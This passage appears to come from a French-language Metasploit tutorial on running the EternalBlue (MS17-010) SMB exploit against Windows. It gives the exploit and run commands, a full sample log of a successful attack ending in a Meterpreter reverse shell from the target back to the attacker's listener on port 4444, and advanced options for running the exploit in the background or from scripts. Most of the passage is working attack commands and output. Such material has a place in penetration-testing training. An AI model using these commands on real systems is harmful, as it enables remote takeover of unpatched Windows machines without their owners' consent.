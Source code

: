 ### Exécution de l'exploit

Une fois toutes les options configurées et la vérification effectuée :

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

ou

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

Exemple de sortie d'une exploitation réussie :
```
[*] Started reverse TCP handler on 192.168.1.50:4444 
[*] 192.168.1.100:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.1.100:445 - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 192.168.1.100:445 - Connecting to target for exploitation.
[+] 192.168.1.100:445 - Connection established for exploitation.
[+] 192.168.1.100:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.1.100:445 - CORE raw buffer dump (42 bytes)
[*] 192.168.1.100:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.1.100:445 - 0x00000010  30 31 36 20 53 74 61 6e 64 61 72 64 20 31 34 33  016 Standard 143
[*] 192.168.1.100:445 - 0x00000020  39 33 20 78 36 34                                93 x64
[+] 192.168.1.100:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.1.100:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.1.100:445 - Sending all but last fragment of exploit packet
[*] 192.168.1.100:445 - Starting non-paged pool grooming
[+] 192.168.1.100:445 - Sending SMBv2 buffers
[+] 192.168.1.100:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.1.100:445 - Sending final SMBv2 buffers.
[*] 192.168.1.100:445 - Sending last fragment of exploit packet!
[*] 192.168.1.100:445 - Receiving response from exploit packet
[+] 192.168.1.100:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.1.100:445 - Sending egg to corrupted connection.
[*] 192.168.1.100:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 192.168.1.100
[*] Meterpreter session 1 opened (192.168.1.50:4444 -> 192.168.1.100:49162) at 2025-05-27 15:30:45 +0000
[+] 192.168.1.100:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.100:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.100:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >
```

### Options d'exécution avancées

```
# Exécution en arrière-plan
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -j

# Exécution avec un nouveau gestionnaire
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -z

# Exécution sans interaction (utile pour les scripts)
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -q
```
